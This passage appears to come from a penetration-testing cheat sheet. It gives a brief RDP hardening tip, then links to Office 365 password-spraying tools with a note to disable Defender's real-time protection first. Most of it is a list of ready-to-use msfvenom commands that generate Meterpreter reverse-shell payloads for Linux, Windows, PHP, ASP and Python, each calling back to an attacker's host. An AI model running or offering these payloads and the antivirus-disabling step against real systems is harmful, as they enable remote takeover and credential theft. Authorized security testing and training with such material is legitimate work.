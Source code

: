 **How to secure RDP**

There are general recommendations to follow that can make the task of attacking your RDP server a lot more difficult for attackers. There are 2 simple actions you can take that will:
- Prevent the exposure of your RDP servers to the internet, keeping them behind your firewall.
- Enable NLA

This can minimize the attack surface by limiting potential attackers only to those who are in your network and have already been authenticated.

### Office 365 / Exchange

#### Password spraying

Tools:
[MailSnpier](https://github.com/dafthack/MailSniper)
> Disable Defender's Real-Time protection first

[SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

## Reverse shells

[Craft reverse shells](revshells.com)

[Usefull resource for referse shells](https://delta.navisec.io/reverse-shell-reference/)

### Msfvenom

Tool to generate reverse shells payloads

#### Meterpreter payloads

Linux Executable and Linkable Format (elf)

``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<you-ip> LPORT=<listener-port> -f elf > rev_shell.elf``

Windows

``msfvenom -p windows/meterpreter/reverse_tcp LHOST=<you-ip> LPORT=<listener-port> -f exe > rev_shell.exe``

PHP

``msfvenom -p php/meterpreter_reverse_tcp LHOST=<you-ip> LPORT=<listener-port> -f raw > rev_shell.php``

ASP
``msfvenom -p windows/meterpreter/reverse_tcp LHOST=<you-ip> LPORT=<listener-port> -f asp > rev_shell.asp``

Python

``msfvenom -p cmd/unix/reverse_python LHOST=<you-ip> LPORT=<listener-port> -f raw > rev_shell.py``


## Privesc
